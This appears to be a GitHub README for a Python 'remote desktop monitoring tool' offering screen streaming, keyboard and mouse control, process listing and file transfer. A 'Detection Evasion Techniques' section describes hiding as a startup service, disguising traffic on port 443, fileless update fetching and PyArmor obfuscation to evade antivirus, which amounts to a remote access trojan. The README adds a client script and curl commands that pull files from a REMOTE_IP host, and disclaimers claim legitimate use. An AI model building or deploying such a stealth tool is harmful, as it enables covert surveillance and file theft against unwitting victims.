 # Remote-Desktop-Monitoring-Tool-
Remote Desktop Monitoring Tool 

This Python-based tool enables remote screen viewing, keyboard & mouse control, process monitoring, and file transfers. It runs stealthily in the background, using SSL & AES encryption to secure communication while evading detection. ✔ For ethical use only

Remote Desktop Monitoring Tool - README

Project Overview
This tool provides remote screen viewing, keyboard & mouse control, process monitoring, and file transfers over a secure, encrypted connection. It is designed for legitimate remote administration, security testing (with permission), and IT monitoring.

⚠ Unauthorized use is illegal (e.g., UK Computer Misuse Act, GDPR).

Features

- Remote Screen Viewing → Stream the target computer’s display in real time.
- Keyboard & Mouse Control → Send keystrokes and mouse clicks remotely.
- Process Monitoring → Retrieve a list of active processes.
- File Transfer → Upload and download files securely.
- Stealth Mode → Runs in the background, using encryption and system integration to evade detection.

Installation & Setup
1. Install Dependencies

2. Run the following command:
`pip install flask pyautogui opencv-python numpy pynput psutil requests pyarmor pycryptodome`

2. Set Up SSL Encryption
Generate SSL certificates for secure communication:
`openssl req -newkey rsa:2048 -x509 -keyout key.pem -out cert.pem -days 365 -nodes`

Place key.pem and cert.pem in the same directory as the script.

3. Run the Tool
Windows: Run as Administrator.
`python remote_desktop_monitor.py`

Linux: Use sudo.
`sudo python3 remote_desktop_monitor.py`

Usage
Remote Screen Viewing
Run this client script on another machine:
```
import socket, pickle, struct, cv2
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect(("REMOTE_IP", 443))
while True:
    data_size = struct.calcsize("Q")
    packed_size = client.recv(data_size)
    size = struct.unpack("Q", packed_size)[0]
    data = b""
    while len(data) < size:
        packet = client.recv(4096)
        if not packet:
            break
        data += packet
    frame = pickle.loads(data)
    cv2.imshow("Remote Screen", frame)
    if cv2.waitKey(1) == ord("q"):
        break
client.close()
cv2.destroyAllWindows()
```

Keyboard & Mouse Control
Send keystrokes remotely:
```
from pynput.keyboard import Controller
keyboard = Controller()
keyboard.type("Hello, remote machine!")
```

Send mouse clicks:
```
from pynput.mouse import Controller, Button
mouse = Controller()
mouse.click(Button.left, 1)
```

Process Monitoring
Retrieve a list of running processes:
`curl http://REMOTE_IP:5000/processes`

File Transfer
Upload a file:
`curl -F "file=@/path/to/local/file" http://REMOTE_IP:5000/upload`

Download a file:
`curl -O http://REMOTE_IP:5000/download/filename`

Detection Evasion Techniques

- Runs in the Background → Registers as a startup service.
- Uses Port 443 → Blends in with HTTPS traffic.
- SSL & AES Encryption → Ensures secure data transmission.
- Fileless Execution → Fetches updates dynamically.
- Obfuscation with PyArmor → Prevents antivirus detection.



Legal Disclaimer
This tool is intended for legitimate use only. Unauthorized deployment is a criminal offense. Ensure compliance with relevant laws such as GDPR and the UK Computer Misuse Act.

Use responsibly.

